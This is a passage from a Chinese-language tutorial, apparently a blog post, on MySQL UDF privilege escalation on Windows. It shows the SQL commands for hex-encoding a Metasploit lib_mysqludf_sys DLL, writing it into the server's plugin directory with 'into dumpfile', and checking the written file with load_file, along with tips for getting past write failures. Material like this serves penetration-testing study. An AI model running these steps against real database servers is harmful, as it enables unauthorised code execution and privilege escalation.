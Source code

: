 ```mysql
MariaDB [mysql]> select @@basedir,@@datadir,@@plugin_dir;
+-----------+---------------+----------------------+
| @@basedir | @@datadir     | @@plugin_dir         |
+-----------+---------------+----------------------+
| D:\MySQL\ | D:\MySQLData\ | D:\MySQL\lib\plugin\ |
+-----------+---------------+----------------------+
1 row in set (0.091 sec)
```

先将用于Windows下MySQL数据库UDF提权的dll文件进行十六进制编码，如图：

![image-20211204174512771](https://{{site.PicturesLinks_Domain}}/images/2021/12/04/20211204174512.png)

接下来进行命令导出文件，此处注意导出使用dumpfile函数，而非outfile函数，因为outfile函数会对导出的文件内容会在行末写入新行，且更致命的是会存在对特殊字符转义操作，这样导出的二进制文件就会遭到破坏；而dumpfile函数则不对任何列或行进行终止，也不执行任何转义处理，此时导出的二进制文件还是完好的。

> 上述十六进制文件获取方法是在Linux系统中使用od命令并结合awk等命令辅助完成获取，也可以使用MySQL自带的hex函数来获取编码（前提相关MySQL数据库开启对文件可读写权限），命令如下：
>
> ```mysql
> # 直接传入路径
> select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll'));
> 
> # 也可以将路径 hex 编码
> select hex(load_file(0x2f7573722f73686172652f6d65746173706c6f69742d6672616d65776f726b2f646174612f6578706c6f6974732f6d7973716c2f6c69625f6d7973716c7564665f7379735f36342e646c6c));
> ```

下面开始命令导出，导出的方法如下：

```mysql
#直接select查十六进制写入，需在十六进制数值前加0x
select 0x4d5a90... into dumpfile 'D:/MySQL/lib/plugin/udf2.dll';

#对十六进制解码写入（可不必）
select unhex('4d5a90...') into dumpfile 'D:/MySQL/lib/plugin/udf2.dll';
```

>若在Windows系统下非MySQL读写文件权限导致的，在使用dumpfile函数写文件未成功，如图：
>
>![image-20211204185129464](https://{{site.PicturesLinks_Domain}}/images/2021/12/04/20211204185129.png)
>
>在使用dumpfile时，涉及的路径应皆使用正斜杠“/”，上述在Windows系统中一开始在文件路径中使用反斜杠未成功写入文件，改用正斜杠之后测试成功写入UDF文件。又或者不存在对应插件目录也可导致无法写入文件，可借助NTFS流创建相关目录文件夹后在写入，此处不具体概述。

结果如图：

![image-20211204181700116](https://{{site.PicturesLinks_Domain}}/images/2021/12/04/20211204181700.png)

成功导出，为确保文件成功导出到目标机，遂再使用load_file函数读取一下文件，如图：

![image-20211204181808437](https://{{site.PicturesLinks_Domain}}/images/2021/12/04/20211204181808.png)
